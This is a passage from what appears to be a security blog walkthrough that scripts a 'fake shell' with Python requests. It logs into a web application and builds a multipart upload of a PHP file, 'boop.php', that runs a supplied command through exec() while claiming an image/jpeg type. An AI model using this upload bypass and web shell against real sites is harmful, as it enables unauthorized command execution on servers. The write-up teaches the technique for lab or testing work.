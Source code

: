 First, a post login request was captured with burp proxy
in order to see what parameters needed to be included.

![Login POST request](/static/blog/images/fake-shell-with-python-requests/postlogin.png)

As can be seen in the captured request, three parameters
are needed: email, password and Login. These were then
defined in a python dictionary.

    :::python
    login_data = {
        'email':'bla%40bla.com',
        'password':'bla',
        'login':'Login'
    }   

Now a post request can be made to the login url defined
earlier with the parameters set in the dictionary.

    :::python
    with requests.Session() as s:
        login = s.post(login_url, data=login_data)


The session is now authenticated and we are logged in as
the bla account. I've demonstrated this in the interactive
python shell here:

![Interactive Login](/static/blog/images/fake-shell-with-python-requests/interactivelogin.png)

The next challenge is sending a 
multipart/form-data request where the file contents is
the command we want to run surrounded by php exec code.
This turns out to be not as complicated as it sounds.

As explained in the [requests documentation](https://2.python-requests.org//en/latest/user/quickstart/#post-a-multipart-encoded-file)
posting a multipart/form-data request is as simple
as defining the data in a python dictionary or a list
of two item tuples. It's also stated in the documentation
that a string can be used as the file contents. Both
of these things are ideal for this task.

In this code snippet, the file is defined with the name
'boop.php', the content is php execing a command defined
by the cmd variable and the type is 'image/jpeg'.

    :::python
    files = [
        ('uploadedfile', 
            ('boop.php',
            '<?php echo exec("' + cmd + '");?>',
            'image/jpeg')
        )
    ]
